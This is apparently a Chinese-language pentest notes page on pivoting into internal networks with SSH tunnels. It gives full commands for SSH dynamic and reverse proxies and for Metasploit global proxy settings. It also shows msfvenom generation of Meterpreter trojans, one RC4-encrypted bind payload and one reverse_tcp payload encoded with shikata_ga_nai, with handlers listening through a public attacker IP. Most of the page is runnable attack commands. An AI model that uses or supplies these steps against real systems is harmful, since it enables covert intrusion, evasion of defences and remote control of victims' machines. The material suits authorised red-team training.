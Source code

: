   #### 正向代理
	SSH动态转发，是建立正向加密的socks通道
	出网靶机编辑后restart ssh服务
	>vim /etc/ssh/sshd_conf
	AllowTcpForwarding yes 允许TCP转发
	GatewayPorts yes   允许远程主机连接本地转发的端口
	TCPKeepAlive yes    TCP会话保持存活
	PasswordAuthentication yes  密码认证
	外部攻击机执行
	>ssh -C -f -N -g -D 0.0.0.0:12138 root@出网靶机IP -p 22
	MSF中设置全局代理或使用其他软件
	>setg proxies socks5:0.0.0.0:12138
	即可进行攻击隔离区机器
![image](img/326.png)
![image](img/327.png)
  #### 反向代理
	>vim /etc/ssh/sshd_conf
	AllowTcpForwarding yes 允许TCP转发
	GatewayPorts yes   允许远程主机连接本地转发的端口
	TCPKeepAlive yes    TCP会话保持存活
	PasswordAuthentication yes  密码认证
	ClientAliveInterval 修改为30-60保持连接
	ClientAliveCountMax 取消注释 发送请求没响应自动断开次数
	107是外网攻击机
	内网靶机执行：
	>ssh -p 22 -qngfNTR 12138:127.0.0.1:22 root@192.168.0.107
![image](img/328.png)

	攻击机执行
	>ssh -p 12138 -qngfNTD 12345 root@192.168.0.107
![image](img/329.png)
	
	隧道建立，可使用代理软件配置攻击机外网IP:12345访问内网
![image](img/330.png)
  #### SSH隧道+rc4双重加密
	生成木马
	>msfvenom -p windows/x64/meterpreter/bind_tcp_rc4 rc4password=123456 lport=446 -f exe -o /var/www/html/bind.exe
	MSF设置
	>setg proxies socks5:0.0.0.0:12138
	>use exploit/multi/handler
	>set payload windows/x64/meterpreter/bind_tcp_rc4
	>set rc4password 123456
	>set rhost 10.1.1.97
	>set lport 446
![image](img/331.png)
  #### 公网SSH隧道+Local MSF
	>msfvenom -p windows/x64/meterpreter/reverse_tcp -e x64/shikata_ga_nai -i 5 -b ‘\x00’ LHOST=公网IP LPORT=12138 -f exe –o /var/www/html/1.exe
	Handler监听本地IP:12138
	SSH转发
	>ssh -N -R 12138:本地内网IP:12138 root@公网IP

